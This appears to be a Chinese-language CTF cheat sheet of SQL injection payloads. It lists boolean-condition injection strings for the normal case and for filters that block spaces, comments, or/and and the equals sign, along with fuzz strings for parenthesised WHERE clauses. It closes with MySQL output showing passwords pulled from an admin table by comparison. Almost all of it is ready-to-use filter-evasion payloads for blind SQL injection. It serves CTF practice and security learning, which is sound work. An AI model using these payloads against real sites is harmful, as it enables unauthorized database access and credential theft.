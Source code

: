 **现在很多CTF比赛脑洞都出在了bool条件的构造，花式bool条件构造。**

> **正常情况**

**`'or bool#`**

**`true'and bool#`**

> **不使用空格、注释**

**`'or(bool)='1`**

**`true'and(bool)='1`**

> **不使用or、and、注释**

**`'^!(bool)='1`**

**`'=(bool)='`**

**`'||(bool)='1`**

**`true'%26%26(bool)='1`**

**`'=if((bool),1,0)='0`**

> **不使用等号、空格、注释**

**`'or(bool)<>'0`**

**`'or((bool)in(1))or'0`**

> **其他**

**`or (case when (bool) then 1 else 0 end)`**

**有时候where字句有括号又猜不到SQL语句的时候，可以有下列类似的fuzz**

**`1' or (bool) or '1'='1`**

**`1%' and (bool) or 1=1 and '1'='1`**

**有时候过滤很严格的话可以通过比较操作拖表中数据**

```mysql
mysql> select * from admin where username="" || id=2 && password<"5";
+----+----------+----------+------+
| id | username | password | num  |
+----+----------+----------+------+
|  2 | admin    | 456      |   20 |
+----+----------+----------+------+
1 row in set (0.00 sec)
mysql> select * from admin where username="" || id=3 && password<"8";
+----+----------+----------+------+
| id | username | password | num  |
+----+----------+----------+------+
|  3 | test     | 789      |   30 |
+----+----------+----------+------+
1 row in set (0.00 sec)
mysql> select * from admin where username="" || id=3 && password<"7";
Empty set (0.00 sec)
```
